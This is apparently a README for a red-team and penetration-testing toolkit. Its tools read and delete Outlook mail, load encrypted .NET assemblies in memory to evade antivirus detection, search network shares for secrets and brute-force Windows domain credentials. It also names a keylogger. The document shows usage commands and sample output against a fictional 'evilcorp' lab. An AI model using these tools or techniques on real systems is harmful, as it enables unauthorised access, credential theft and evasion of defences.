 # RTUtils

Repository of random tool / script used during RT / PT

## SharpOutlook

C# .NET Program to list, read and delete emails through Outlook

### Example

```
SharpOutlook.exe -a list -f "[Unread] = True"

ID:             00000000900E6692258C7949975EBE7BFB017AEF07006297EEE9A65EA44D9C1C8DC1A755F24200000000000E00006297EEE9A65EA44D9C1C8DC1A755F24200000000040C0000
From:           website@evilcorp.local
To:             Elliot
CC:
Subject:        Help request from - Test


SharpOutlook.exe -a read -i 00000000900E6692258C7949975EBE7BFB017AEF07006297EEE9A65EA44D9C1C8DC1A755F24200000000000E00006297EEE9A65EA44D9C1C8DC1A755F24200000000040C0000

ID:             00000000900E6692258C7949975EBE7BFB017AEF07006297EEE9A65EA44D9C1C8DC1A755F24200000000000E00006297EEE9A65EA44D9C1C8DC1A755F24200000000040C0000
From:           website@evilcorp.local
To:             Elliot
CC:
Subject:        Help request from - Test
Body:
This is a test


SharpOutlook.exe -a delete -i 00000000900E6692258C7949975EBE7BFB017AEF07006297EEE9A65EA44D9C1C8DC1A755F24200000000000E00006297EEE9A65EA44D9C1C8DC1A755F24200000000040C0000

Deleted
```



## AssemblyLoader

C# .NET Program to serialize a .NET program into a base64 string encrypted that then will be loaded in memory, allowing to specify arguments, in order to bypass the signature-based detection of AVs

### Example

```
C:\>.\Serializer.exe SharpUp.exe
Copy the content of serialised.txt into the variable "assembly" of Loader
C:\>.\Loader.exe audit

=== SharpUp: Running Privilege Escalation Checks ===

[*] In medium integrity but user is a local administrator- UAC can be bypassed.

[*] Audit mode: running all checks anyway.
```


## SharpFind

C# .NET for finding file name and keyword

### Usage

```
C:\>.\SharpFind.exe
For searching by name: SharpFind.exe name {directory} {name} {extension} [outputFile]
For searching by keyword: SharpFind.exe keyword {directory} {keyword} {extension} [outputFile]

- directory: C:\path\to\directory\ or \\path\to\directory\ or LocalShares (to search into all local network computers [net view]) or LogicalDisk (to search into all logical disks)
- name and keyword: case insensitive
- extension: *.* or *.txt
```
### Example
```
C:\>.\SharpFind.exe keyword LocalShares secret *.*
[*] Getting Shares...
\\EVILCORPVM01\ADMIN$
\\EVILCORPVM01\C$
\\EVILCORPVM01\IPC$
\\EVILDC\NETLOGON
\\EVILDC\SYSVOL
\\EVILDC\Users
[+] \\EVILDC\Users\elliot\Desktop\shared\keyword.doc
[+] \\EVILDC\Users\elliot\Desktop\shared\keyword.docx
[+] \\EVILDC\Users\elliot\Desktop\shared\keyword.pdf
[+] \\EVILDC\Users\elliot\Desktop\shared\keyword.xls
[+] \\EVILDC\Users\elliot\Desktop\shared\keyword.xlsx

C:\ >.\SharpFind.exe name LocalShares findme *.*
[*] Getting Shares...
\\EVILCORPVM01\ADMIN$
\\EVILCORPVM01\C$
\\EVILCORPVM01\IPC$
\\EVILDC\NETLOGON
\\EVILDC\SYSVOL
\\EVILDC\Users
[+] \\EVILDC\Users\elliot\Desktop\shared\AnotherDir\findme.txt
```
## SharpWinLogin

C# .NET for brute-forcing Windows Domain Credential 

### Usage

```
C:\>.\SharpWinLogin.exe
SharpWinLogin.exe {usernameList} {passwordList} {lockoutThreshold} [outputFile]
For searching by keyword: SharpFind.exe keyword {directory} {keyword} {extension} [outputFile]

- usernameList: C:\\path\\to\\usernameList.txt or "username1,username2" or auto (to retrieve the username list from Domain Controller)
- passwordList: C:\\path\\to\\passwordList.txt or "password1,password2"
- lockoutThreshold: n or 0 (for no lockout threshold)
```
### Example
```
C:\>.\SharpWinLogin.exe “locked,angela” “locked,angela1990,test” 0
User locked is disabled
[+] Found credentials angela:angela1990

C:\ >.\SharpWinLogin.exe auto “angela1234,test” 0
User locked is disabled
[+] Found credentials angela:angela1234
```

## Trakker

C# .NET simple Keylogger
